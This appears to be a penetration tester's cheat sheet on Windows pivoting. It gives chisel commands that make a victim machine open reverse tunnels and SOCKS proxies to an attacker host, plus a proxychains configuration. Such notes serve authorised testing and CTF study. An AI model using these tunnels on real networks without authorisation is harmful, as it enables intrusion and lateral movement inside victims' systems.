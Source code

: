 # Windows pivoting

### Chisel for Windows
https://github.com/jpillora/chisel/releases

```
Victims Box: .\chisel.exe client <attackersIP>:8011 R:1234:127.0.0.1:1234
Attackers Box: .\chisel.exe server -p 8011 --reverse
```

### ippsec demonstration Proxychains
https://www.youtube.com/watch?v=Yp4oxoQIBAM&t=5446  

```
Attackers Box: ./chisel server -p 8000 --reverse
Victims Box: .\chisel.exe client <attackerIP>:8000 R:8001:127.0.0.1:1337
Victims Box: .\chisel.exe server -p 1337 --socks5
Attackers Box: ./chisel client 127.0.0.1:8001 socks
```

Standard Proxychains:  

https://medium.com/@vegardw/reverse-socks-proxy-using-chisel-the-easy-way-48a78df92f29  

```
./chisel server -p 8080 --reverse

.\chisel.exe client <IP>:8080 R:socks

Edit Proxychains config file:
/etc/proxychains.conf

Add the following:
socks5 127.0.0.1 1080
```
